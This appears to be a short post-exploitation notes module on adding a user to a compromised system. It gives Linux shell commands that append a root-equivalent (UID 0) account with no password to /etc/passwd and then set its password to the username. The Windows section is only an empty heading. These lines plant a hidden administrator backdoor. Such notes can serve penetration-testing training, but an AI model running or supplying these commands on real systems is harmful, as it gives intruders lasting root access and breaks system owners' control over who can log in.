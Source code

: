 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"|chpasswd`

## WINDOWS (DOS Method)
